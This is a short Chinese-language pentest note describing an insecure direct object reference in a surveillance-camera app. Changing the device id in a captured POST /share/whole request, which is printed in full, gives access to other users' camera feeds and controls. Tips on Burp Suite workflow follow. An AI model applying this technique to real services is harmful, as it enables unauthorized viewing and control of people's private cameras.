
>有些功能点有漏洞，不是这个漏洞多么难，
>而是隐藏的深一些，可能不是点击某个按钮才能触发...

受到老师这个指点，我爆破验证码登陆一直卡住不前，但是看监控的漏洞确是直接破获～
## 1. 获取信息找切入口
![[Pasted image 20230726011956.png|300]]
app登陆完毕，进入主页面时，进行抓包，查看所有请求历史，一起分析
![[CleanShot 2023-07-26 at 01.26.54@2x 1.png]]
最后这个请求，就是在拉取监控设备展示在主页：

```text
POST /share/whole HTTP/1.1
Host: xyx.wiki
Accept: */*
Content-Type: application/json
Content-Length: 15
Version: 1.6
Terminaltype: ios
User-Agent: StarEyeCN/1.6 (iPhone; iOS 17.0; Scale/3.00)
Accept-Language: zh-Hans-CN
Accept-Encoding: gzip, deflate
Connection: close

{"id":"177493"}
```

于是想到，直接将id更改为其他人的，就神奇地成功了!
## 2. 攻击
手机刷新主页，抓住`POST share/whole` 请求，将id更改，再提交！
![[CleanShot 2023-07-26 at 01.32.11 1.gif|500]]
手机的刷新结果即成为了其他人的设备页面，可以直接查看和操纵...
![[Pasted image 20230726013722.png|300]]
![[Pasted image 20230726013727.png]]

## tips
>给大家在说一个渗透思维，有的时候不要一个一个的抓数据包，先挂着burpsuite，等你点了几个功能后，再回去看最近的历史数据包，最后再测试，如果每次只看一个数据包的话，可能看不太出来时做啥用的。还有不光要看请求包，还要看他的响应包，结合来看，效果最好。
